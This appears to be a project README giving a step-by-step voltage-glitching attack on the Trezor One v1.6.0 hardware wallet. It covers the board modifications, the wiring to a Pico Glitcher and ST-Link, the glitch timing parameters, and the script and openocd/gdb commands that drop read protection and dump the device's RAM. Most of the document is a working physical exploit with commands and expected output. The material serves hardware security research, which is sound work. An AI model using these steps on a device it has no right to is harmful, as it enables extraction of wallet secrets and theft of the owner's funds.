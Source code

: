 # Trezor One v1.6.0 glitching

This short summary will explain how to attack the Trezor One and how to get from RDP level 2 to RDP level 1 with access to RAM. With RAM access, other attacks can be performed, for example another voltage glitching attack to downgrade from RDP-1 to RDP-0.

![](images/01-original-target.JPG)

## Preparations

Begin by covering delicate components with a metal foil and desolder the marked capacitors:

![](images/02-covering-delicate-components.JPG)
![](images/03-desoldered-capacitors.JPG)

Solder a breakout pinheader to the Trezor One to get SWD access:

![](images/04-soldered-breakout-pinheader.JPG)

Glue a SMA connector to the backside of the device and connect the positive lead (middle pin) to the `V_CAP` line and the negative lead to `GND`:

![](images/05-backside.JPG)
![](images/06-sma-connector-on-vcap.JPG)

Connect a ST-Link debug adapter to the SWD lines, and the reset line to `RESET`, as well as the power lines to the Pico Glitcher:

| Trezor pins   | ST-Link | Pico Glitcher |
|---------------|---------|---------------|
| RESET         |         | RESET output  |
| GND           | GND     | GND           |
| SWO           |         |               |
| SWCLK         | SWCLK   |               |
| SWDIO         | SWDIO   |               |
| VDD           | T_VCC   | VTARGET       |
| SMA connector |         | SMA crowbar   |

Connect the input `EXT1` to the crowbar glitch output `GLITCH`. This is necessary to trigger on the rising-edge of the voltage on the `V_CAP` line (green dupont cable in the following figure). Turn the potentiometer labeled `ATN` all the way to the right (clockwise). The `THR` potentiometer should be adjusted during the execution of the glitcher script so that no timeouts occur (probable `3/4` position, the arrow points to the left).

![](images/07-glitching-setup.JPG)
![](images/08-trezor-connections.JPG)


Connect channel 1 of an oscilloscope to the `VCAP` line via the SMA connector, channel 2 to the `VTARGET` output and the external trigger input of the oscilloscope to the `EXT1` hook.

![](images/09-pico-glitcher-setup.JPG)

DO NOT connect the Trezor one during glitching via USB to your computer.

## Voltage traces

Verify the startup sequence of the STM32F205 by measuring the voltage traces during startup:

![](images/10-startup.bmp)

The level of the voltage supply should slowly rise in comparison to the voltage on the `V_CAP` line. Furthermore, the voltage output on the `VCAP` line is delayed approximately 150ms after the device is powered on. Powering the device and measuring the voltage traces can be done with the command:

```bash
power-on --rpico /dev/<tty-device>
```

## Glitching

Now everything is set up, we can start glitching our device. For this, the script `stm32f2-boot-debugger.py` has been prepared. This script powers up the device, waits for the trigger signal on input `EXT1`, waits a given delay and emits a glitch of a certain length. Afterwards, it is tested if memory can be read from RAM.

![](images/11-vcap-power-trace.bmp)

Successful glitches should be found about 176us after the VCAP line comes up. Start by searching a wider parameter space and reduce the parameter space when the first positive events are observed. The glitch length is not critical, but in general shorter glitches are preferable.

```bash
python stm32f2-boot-debugger.py --rpico /dev/<tty-device> --length 100 500 --delay 175_600 176_700 --trigger-input ext1
```

![](images/12-parameterspace.png)

In the default configuration, the script does not halt if a positive glitch is detected. This is helpful to search for good parameters. If you want to get live debug access to the RAM, you can use the `--halt` parameter and stop execution of the script. Use `--resume` to resume a previous capture.

```bash
python stm32f2-boot-debugger.py --rpico /dev/<tty-device> --length 100 500 --delay 175_600 176_700 --trigger-input ext1 --resume --halt
```

When the script is stopped (when a successful glitch is detected), further instructions are printed to the terminal:

```bash
[+] Experiment 158	12914	(3)	176526	126	R	b'success: read zero'
[+] Now connect the Trezor One via USB with your computer and go to the Trezor Suite app.
    Wait for the Trezor One to connect. Do not abort this script!
    If the pin input on the Trezor comes up, execute the following command to dump the memory:
    $ openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; reset run"
    Connect to openocd via gdb or telnet:
    $ telnet localhost 4444
    $ arm-none-eabi-gdb
    (gdb) target remote :3333
    (gdb) monitor reset halt
    (gdb) continue
    Or dump the RAM as is with the following command:
    $ openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; dump_image ram.bin 0x20000000 0x1fffffff; exit"
```

In this state, you can either try to dump the RAM contents:

```bash
openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; dump_image ram.bin 0x20000000 0x1fffffff; exit"
```

Or you can connect to the device via telnet or gdb. First initialize a debug connection with openocd:

```bash
openocd -f interface/stlink.cfg -c "transport select hla_swd" -f target/stm32f4x.cfg -c "init; reset run"
```

Then connect via telnet:
```bash
telnet localhost 4444
```

Or GDB:
```bash
arm-none-eabi-gdb
(gdb) target remote :3333
(gdb) monitor reset halt
(gdb) continue
```
